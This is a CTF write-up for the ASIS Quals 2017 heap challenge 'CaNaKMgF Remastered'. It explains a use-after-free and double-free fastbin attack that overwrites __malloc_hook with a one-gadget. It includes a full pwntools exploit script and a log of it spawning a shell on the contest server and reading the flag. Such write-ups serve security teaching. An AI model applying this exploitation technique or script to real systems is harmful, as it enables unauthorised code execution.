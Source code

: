 ```yaml
---
layout: post
title: ASIS Quals CTF 2017 - CaNaKMgF Remastered
published: True
---
```


**Points:** 384
**Solves:** 25
**Category:** Exploitation 

> [CaNaKMgF_remastered](../binaries/CaNaKMgF_remastered)

{% highlight bash %}
CaNaKMgF_remastered: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e4ba2a9e3c69441f88481b5e06ac21fd52c54b9a, not stripped
{% endhighlight %}

{% highlight python%}
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
{% endhighlight %}

## Intro
This program is based off the `CaNaKMgF` pwnable challenge, except that `CaNaKMgF_remastered` has full RELRO enabled and PIE enabled. Interestingly, during the CTF, I had already solved `CaNaKMgF` using a technique that bypassed both mitigations, so I re-used the same exploit for `CaNaKMgF_remastered` and was able to get the flag.

## Reversing
When we run the program, we are presented with the following menu.

{% highlight bash %}
1. Allocate
2. Pray for Allah
3. Free
4. Read
5. Run away
{% endhighlight %}

The program is very simple. It allows us to allocate heap chunks of different sizes, which it places in a global array in the .BSS called `alloc_list[]`. 
We can write data of our choosing into these chunks and the program ensures that the length of our data fits inside the chunk we've allocated for it.  
We can specify chunks from this list that we would like to print out the contents of.
Similarly, we can also free any chunks in this list.
 
There was also some functionality to read limited files off the remote server when one selected the "Pray for Allah" option in the `CaNaKMgF` binary, but this function no longer worked in `CaNaKMgF_remastered`, and I didn't use it in my exploit for `CaNaKMgF`, anyway.

## Exploit
The main vulnerability in this program is that when a chunk is freed, the associated pointer to the chunk is not removed from `alloc_list[]`. This allows us to perform **use-after-frees** and **double-frees** which we can abuse to corrupt the heap and gain code execution.

To get a libc leak, we can exploit the **UAF** to allocate 2 small chunks, free one of them and then print its contents out, since we know the `FD` and `BK` pointers of our free'd small chunk will be populated with a pointer to an offset from `main_arena` in libc. (The purpose of allocating a 2nd small chunk, is to prevent top chunk consolidation.)

To get control of `RIP`, we can perform a **fastbin attack** to get `malloc()` to return an almost arbitrary pointer, overwrite `__malloc_hook`, and then call our overwritten `__malloc_hook` function pointer by triggering a double free memory corruption error.

To perform the **fastbin attack**, we will allocate 2 fast chunks of size `0x68` bytes, and free the 2nd one, then the 1st one, and then the 2nd one again, abusing the fact that we can double-free fast chunks, so long as the head of the freelist that their fast chunk size is associated with, is not the same as the chunk that is being free'd.  

from `malloc.c`:
{% highlight C %}
if (__builtin_expect (old == p, 0))
  {
    errstr = "double free or corruption (fasttop)";
    goto errout;
  }
{% endhighlight %}

So, right now our fastbin looks like this:

[HEAD]->D->C->D->NULL 

Now, we will allocate another fast chunk of the same size as D, so that D is popped off this freelist and used to service our `malloc()` request.

Since we can also specify the contents of chunks we allocate, we will overwrite the first qword of this chunk with the address of our target that we would like `malloc()` to return.

**This corrupts the `FD` pointer of chunk D, a pointer to  which, still exists in the singly linked freelist!** 

We can select any address to overwrite the `FD` pointer with, subject to certain constraints. 

from `malloc.c`:
{% highlight C %}
 if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ()))
    {
      idx = fastbin_index (nb);
      mfastbinptr *fb = &fastbin (av, idx);
      mchunkptr pp = *fb;
      do
        {
          victim = pp;
          if (victim == NULL)
            break;
        }
      while ((pp = catomic_compare_and_exchange_val_acq (fb, victim->fd, victim))
             != victim);
      if (victim != 0)
        {
          if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
            {
              errstr = "malloc(): memory corruption (fast)";
            errout:
              malloc_printerr (check_action, errstr, chunk2mem (victim), av);
              return NULL;
            }
          check_remalloced_chunk (av, victim, nb);
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }
    }
{% endhighlight %}

To satisfy these constraints, we will abuse the fact that we can make `FD` point to misaligned addresses as long as they satisfy the valid size metadata field constraint. In our case, since we are targeting fast chunks of size `0x68`, the following is a valid address should do the trick.

{% highlight C %}
gdb-peda$ p &__malloc_hook
$2 = (void *(**)(size_t, const void *)) 0x7ffff7dd1b10 <__malloc_hook>
gdb-peda$ x/32xg 0x7ffff7dd1b10-0x30+0xd
0x7ffff7dd1aed <_IO_wide_data_0+301>:   0xfff7dd0260000000      0x000000000000007f 
0x7ffff7dd1afd:                         0xfff7a93270000000      0xfff7a92e5000007f 
0x7ffff7dd1b0d <__realloc_hook+5>:      0xfff7a92c8000007f      0x000000000000007f
0x7ffff7dd1b1d:                         0x0000000000000000      0x0000000000000000
{% endhighlight %}

At this point, our freelist should now look like this:

[HEAD]->C->D->{target addr}

After two more allocations, our target address should now be at the head of this freelist:

[HEAD]->{target addr}

Then, the next memory allocation of size `0x68` should return a pointer to our target address`+0x10` and since we can control the contents of chunks we allocate, we  will simply overwrite `__malloc_hook` with a **"magic" one gadget RCE** address.

Once we trigger an actual double free corruption error, the program should now spawn a shell.

## exploit.py
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def allocate(length, contents):
    r.sendline("1")
    r.recvuntil("Length?")
    r.sendline(str(length))
    r.sendline(contents)
    r.recvuntil("away")

def free(idx):
    r.sendline("3")
    r.recvuntil("Num? ")
    r.sendline(str(idx))
    r.recvuntil("away")

def read(idx):
    r.sendline("4")
    r.recvuntil("Num? ")
    r.sendline(str(idx)) 
    return r.recvuntil("away")

def exploit(r):
    libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
    
    # leak libc
    log.info("starting leaks...")
    allocate(255,"A")
    allocate(255,"B")
    free(0)

    libc_base = u64(read(0)[:6].ljust(8,'\0'))-0x3c3b78
    malloc_hook  = libc_base+libc.symbols["__malloc_hook"]
    one_shot = libc_base+0xef6c4
    log.success("libc base found at: "+hex(libc_base)) 
    log.success("one_shot found at: "+hex(one_shot)+"\n\n") 

    ## fastbin attack
    log.info("starting fastbin attack...")
    allocate(0x68,"C") # C # 2
    allocate(0x68,"D") # D # 3
    allocate(255, "E") # E
    
    free(3)
    free(2)
    free(3)

    # overwrite __malloc_hook
    payload = p64(malloc_hook-0x30+0xd)
    allocate(0x68, payload)
    allocate(0x68, "F")
    allocate(0x68, "G")
    allocate(0x68,"H"*0x13+p64(one_shot))
    free(0)
   
    # trigger
    r.sendline("3")
    r.sendline("0") 
    
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['./CaNaKMgF_remastered'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  CaNaKMgF_remastered python exploit.py 128.199.85.217 10001
[*] For remote: exploit.py HOST PORT
[+] Opening connection to 128.199.85.217 on port 10001: Done
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] starting leaks...
[+] libc base found at: 0x7f80b7c9f000
[+] one_shot found at: 0x7f80b7d8e6c4
    
[*] starting fastbin attack...
[*] Switching to interactive mode

Num? $ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn)
$ ls
CaNaKMgF
F1Ag_FiLe_Is_Heeereeeeeee_HAHAHA
$ cat F1Ag_FiLe_Is_Heeereeeeeee_HAHAHA
ASIS{full_relro_fastbin_attack!!!!!!_:-P}
$
{% endhighlight %}
